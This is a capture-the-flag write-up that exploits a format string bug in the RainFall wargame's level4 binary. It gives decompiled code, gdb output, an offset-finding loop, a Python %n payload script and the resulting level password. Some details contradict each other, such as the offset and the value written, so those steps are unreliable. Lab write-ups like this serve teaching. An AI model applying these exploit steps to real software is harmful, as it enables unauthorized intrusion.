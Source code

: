 LEVEL_4:
# 📚 Exploiting `level4` – Format String Vulnerability to Overwrite Global Variable

## 🔍 Challenge Summary

The target is a vulnerable binary named `level4` from the RainFall wargame on Linux. Our goal is to:

- Exploit a **format string vulnerability** in `printf()`
- Overwrite a global variable `m` with the value `0x1025544`
- Satisfy the condition `if (m == 0x1025544)` to execute ` system("/bin/cat /home/user/level5/.pass")`


## 🔐 Binary Protections

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4

void p(char *param_1)

{
  printf(param_1);
  return;
}

void n(void)
{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  p(local_20c);
  if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}

```
 ## Exploitation Strategy

    Leak stack contents to determine the correct format string offset
    Use %n to write 0x40 to the address of the global variable m
    Trigger the condition and gain a shell

##  Step 1: Find the Address of m

```
(gdb) p &m
$1 = (int *) 0x08049810
```
## Step 2: Discover Format String Offset

```
for i in $(seq 1 40); do
  python -c "print('AAAA' + ' %%%d\$x' % $i)" | ./level4
done
```
Look for 41414141 in the output. appears at %11$x, that means the offset is 7.
## Step 3: Exploit Script (Python)
```
import struct
import sys

if len(sys.argv) != 2:
    print("Usage: python exploit.py <offset>")
    sys.exit(1)

offset = int(sys.argv[1])

m_addr = struct.pack("<I", 0x08049810)
target_val = 0x1025544
written = len(m_addr)

padding = target_val - written
if padding < 0:
    padding += 256

fmt = "%%%dx%%%d$n" % (padding, offset)
payload = m_addr + fmt.encode("ascii")

with open("payload.txt", "wb") as f:
    f.write(payload)

print("Wrote payload with offset %d" % offset)


```
## Step 4: Execute the Exploit

> python exploit.py 11 </br>
> (cat payload.txt; cat) | ./level4
```
b7ff26b0
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```